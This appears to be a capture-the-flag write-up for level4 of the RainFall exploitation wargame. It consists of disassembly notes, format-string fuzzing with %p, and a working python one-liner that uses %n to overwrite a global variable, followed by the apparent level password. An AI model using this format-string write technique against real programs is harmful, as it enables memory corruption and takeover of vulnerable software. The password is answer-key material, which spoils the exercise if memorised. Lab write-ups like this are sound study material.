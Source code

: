 ```
mov    0x8049810,%eax
cmp    $0x1025544,%eax

x 0x8049810
0x8049810 <m>:	0x00000000

```
cmp var m with `p 0x1025544 = 16930116`

fuzz the binary

```
level4@RainFall:~$ python -c 'print "AAAA" + " %p " * 30' | ./level4
AAAA 0xb7ff26b0  0xbffff754  0xb7fd0ff4  (nil)  (nil)  0xbffff718  0x804848d  0xbffff510  0x200  0xb7fd1ac0  0xb7ff37d0  0x41414141
```

```
level4@RainFall:~$ python -c 'print "AAAA" + " %12$x" ' | ./level4
AAAA 41414141
```

p 0x1025544 - 4 = 16930112

(python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d" + "%12$n"') | ./level4 

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

